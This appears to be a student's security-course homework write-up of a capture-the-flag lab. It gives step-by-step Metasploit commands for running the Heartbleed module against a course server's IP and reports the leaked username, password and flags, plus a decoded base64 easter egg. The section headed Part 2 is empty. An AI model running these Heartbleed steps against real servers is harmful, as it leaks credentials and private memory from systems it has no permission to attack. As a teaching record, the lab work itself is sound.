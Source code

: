 <b>I pledge on my honor that I have not given or received any unauthorized assistance on this homework or assignment. -Jacob Elspas</b>

Homework #4

Part 1: I started off by opening a Bash Terminal and making a metasploit container using the following command 
``` nc 159.89.233.47 1337``` and then running ```msfconsole```.
The I ran ```search heartbleed``` to find the path for the heartbleed attack, and then selected it with ``` use auxiliary/scanner/ssl/openssl_heartbleed```.
Next, I set the parameters for the exploit and subsequently ran it with the following commands:
``` 
set RHOSTS 165.227.204.80
set VERBOSE true
exploit
```
This ran the exploit on the IP address 165.227.204.80, which is the IP address of the website www.briong.com. I found this by using a website where you give it a domain name and it returns it’s IP address: 

![](/img/briong-IP.PNG)

After the execution of heartbleed, I looked through the output that was returned and I found the flag, as well as a username and a password:

* username=mnthomp22
* password=pass1234
* flag=CMSC389R-{h3art_bl33d}

Lastly, I also found an easter egg in the same line : easteregg=V0FJVCBUSElTIElTTidUIEVOQ1JZUFRJT04/Pw0KQ01TQzM4OVIte2Jhc2U2NF9pc19zdGlsbF91c2VkX2Zvcl9jcnlwdDB9!

After receiving a hint from my instructor, I learned that it was encoded in Base 64. After using an online decrypter it decrypted to the following message: 

WAIT THIS ISN'T ENCRYPTION??
CMSC389R-{base64_is_still_used_for_crypt0}

I've included a screenshot of a subsegment the output that I received after doing the attack:
![](/img/bash-flag.PNG)
 - - -
Part 2: 
